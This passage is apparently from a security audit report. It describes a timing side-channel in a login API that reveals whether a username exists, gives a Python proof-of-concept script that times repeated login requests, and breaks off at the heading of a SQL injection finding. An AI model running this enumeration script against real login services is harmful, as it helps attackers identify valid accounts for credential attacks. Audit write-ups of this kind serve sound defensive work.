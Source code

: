 **Attack Vector:**

By measuring response times, attacker can determine if username exists:
- Non-existent user: ~10-50ms (fast DB query)
- Existing user: ~200-500ms (bcrypt verification)

**Proof of Concept:**

```python
import requests
import time
import statistics

def timing_attack(username, password="wrong"):
    times = []
    for _ in range(10):  # Average over multiple attempts
        start = time.time()
        requests.post(
            'https://[server]/api/auth/login',
            json={'username': username, 'password': password}
        )
        elapsed = time.time() - start
        times.append(elapsed)
    
    avg_time = statistics.mean(times)
    return avg_time

# Test with known non-existent user
nonexistent_time = timing_attack("zzz_nonexistent_user_xyz")
print(f"Non-existent user: {nonexistent_time:.3f}s")

# Test with potential target
target_time = timing_attack("alice")
print(f"Target user: {target_time:.3f}s")

if target_time > nonexistent_time * 2:
    print("[+] User 'alice' exists!")
```

**Impact:**
- Username enumeration via timing side-channel
- Bypasses rate limiting (observe timing, not response content)

---

## 3. SQL Injection Vulnerabilities

### 3.1 CRITICAL: SQL Injection in Message Filtering

**Severity:** CRITICAL  
**CVSS Score:** 9.8

**Vulnerability Description:**
